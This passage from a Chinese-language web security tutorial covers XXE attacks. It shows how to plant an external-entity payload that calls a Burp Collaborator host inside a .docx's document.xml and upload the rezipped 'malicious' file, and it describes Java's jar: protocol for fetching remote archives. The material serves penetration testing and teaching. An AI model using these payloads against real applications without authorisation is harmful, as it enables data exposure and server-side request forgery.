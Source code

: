 由于此技术使用了内部的DTD，您需要首先找到一个可以用的DTD。可以试试安装一个一样的操作系统和相关软件来浮现上面这个过程。

### Office Open XML解析器实现 XXE

许多web应用程序允许您上载Microsoft Office文档，然后从中解析一些详细信息。例如，您可能有一个web应用程序，允许您通过上传XLSX格式的电子表格来导入数据。有时，为了让解析器从电子表格中提取数据，解析器需要解析至少一个XML文件。

对此进行测试的方法是生成一个包含XXE payload的Microsoft Office文件，实现的步骤很简单。首先，创建一个空目录来解压缩文档，然后解压缩！

```bash
test$ ls
test.docx
test$ mkdir unzipped
test$ unzip ./test.docx -d ./unzipped/
Archive:  ./test.docx
  inflating: ./unzipped/word/numbering.xml
  inflating: ./unzipped/word/settings.xml
  inflating: ./unzipped/word/fontTable.xml
  inflating: ./unzipped/word/styles.xml
  inflating: ./unzipped/word/document.xml
  inflating: ./unzipped/word/_rels/document.xml.rels
  inflating: ./unzipped/_rels/.rels
  inflating: ./unzipped/word/theme/theme1.xml
  inflating: ./unzipped/[Content_Types].xml
```

打开./unzipped/word/document.xml，并将该相关 payload 写入 XML 文件中。我首先尝试的是HTTP请求，如下所示：

```xml-dtd
<!DOCTYPE x [ <!ENTITY test SYSTEM "http://[ID].burpcollaborator.net/"> ]>
<x>&test;</x>
```

这些行应该插入到两个根XML对象之间，如下图所示：

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/xxe-obscure.png)

剩下的就是压缩文件以创建恶意的 poc.docx 文件。从我们之前创建的“解压缩”目录中，运行以下命令：

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/xxe-unzipped.png)

现在上传该恶意文件然后在相关平台中查看是否有相关请求触发。

### Jar: 协议

Jar协议只能在Java的应用程序中触发，它允许访问PKZIP（.zip，.jar）中的文件，并且适用于本地或者远程文件。

利用方式：

```java
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

**运行过程中：**

- 发送一个 http 请求（https://download.host.com/myarchive.zip）加载一个ZiP文档。
- 将Response包保存在本地临时文件/tmp目录下。
- 提取文档内容
- 读取file.zip
- 删除保存在 /tmp 目录下的文件
